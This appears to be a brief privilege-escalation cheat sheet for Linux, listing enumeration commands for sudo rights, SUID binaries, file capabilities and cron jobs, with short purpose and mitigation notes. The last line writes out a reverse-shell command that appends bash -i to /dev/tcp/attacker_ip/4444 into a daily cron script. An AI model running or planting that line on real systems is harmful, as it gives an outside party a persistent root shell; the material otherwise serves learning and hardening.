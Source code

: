 # Check programs the user can run as root
<pre>sudo -l</pre>

# Check file permisions
<pre>ls -la</pre>

# Check programs with SUID bit set
<pre>find / -type f -perm -04000 -ls 2>/dev/null </pre>
**Mitigation: check often for suid files and remove it where not needed also limit file access and monitor system changes.
** Purpose: Admin sets suid bit on a program so a normal user runs these application with higher privilege 


# Get a list of of application that has capabilities
getcap -r / 2>/dev/null
** Purpose: Let programs run only with the specific powers they need, instead of full root access.
** Mitigation: Follow least privilege, review assigned capabilities and drop unnecesssary ones

# Cron jobs --> : Scheduled tasks in Linux that run automatically at set times. Runs with the privilege of their owners and not current user

<pre> ls -la /etc/cron*</pre> 
<pre>echo "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> /etc/cron.daily/backup</pre>
